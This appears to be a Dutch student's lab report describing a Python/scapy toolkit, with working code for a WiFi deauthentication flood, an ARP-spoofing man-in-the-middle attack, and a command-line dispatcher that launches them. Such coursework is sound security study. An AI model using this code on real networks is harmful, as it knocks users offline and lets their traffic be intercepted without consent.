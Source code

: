 ## Verslag les 9

Tijdens dit labo heb ik aan mijn tookit gewerkt. Mijn toolkit heeft 2 kanten, een snif kant en een aanval kant. Er zijn 2 toevoegingen aan mijn aanval kant. Het is me gelukt om wifi deauth toe te voegen samen met een man in the middle

### Deauth

Met deze functie kun je 500 deauth frames sturen naar voor een ip adres. Merk op dat je best in monitor mode dit kunt doen.
```python
def deauth(ip: str):
    gws = netifaces.gateways()
    ip_gateway = gws["default"][2][0]
    print(ip_gateway, ip)

    mac_host = arp(ip)
    mac_gateway = arp(ip_gateway)
    print(mac_host, mac_gateway)

    dot11 = Dot11(addr1=mac_host, addr2=mac_gateway, addr3=mac_gateway)
    packet = RadioTap()/dot11/Dot11Deauth(reason=7)
    sendp(packet, inter=0.01, count=500 )#iface="wlan0mon", verbose=1)
    print(ping_host(ip))

```

### Man in the middle
Deze code maakt 2 sub processen aan die door te arpspoofen ervoor zorgen dat de default gateway en de target naar de host berichten gaan sturen.

```python
def mitm(target: str, gateway:str, host: str):
    print(target, gateway, host, "mitm")
    spawn_spoofer(target, gateway)
    spawn_spoofer(gateway, target)
    time.sleep(6)
    pass

def spawn_spoofer(targetIP, spoofIP):
    p = Process(target=loop_spoofer, args=(targetIP, spoofIP,))
    p.start()

def loop_spoofer(targetIP, spoofIP):
    print(f"starting spoofer {targetIP} -> {spoofIP}")
    destinationMac = arp(targetIP)
    while True:
        spoofer(targetIP, spoofIP, destinationMac)
        time.sleep(1)

def spoofer(targetIP, spoofIP, destinationMac):
    packet=scapy.ARP(op=2,pdst=targetIP,hwdst=destinationMac,psrc=spoofIP)
    scapy.send(packet, verbose=False)

```

#### Main
momenteel ziet de main functie er zo uit.
Door gebruik te maken van de argparse module worden cmd argumenten geparsed.
```python
if __name__ == "__main__":
    args = get_arguments()

    # sniffen
    if args.scan:
        type_of_scan = args.scan

        # --scan layer2 --card en1
        if type_of_scan.lower() == "layer2" and args.card:
            interface = args.card
            print(f"scanning {type_of_scan} on {interface}")
            sniff_layer_2(interface)

        elif type_of_scan.lower() == "ping" and args.target:
            target = args.target

            print("pinging host(s)", target)
            if ping_host(target):
                print("Antwoord gekregen van {host}")
            else:
                print(f"geen antwoord gekregen van {target}")

    # attack
    elif args.attack:
        print("attack")
        attack = args.attack.lower()
        target = args.target
        gateway = args.gateway
        host = args.host

        if attack == "mitm" and target and gateway and host:
            mitm(target, gateway, host)
        elif attack == "deauth" and target:
            deauth(target)

```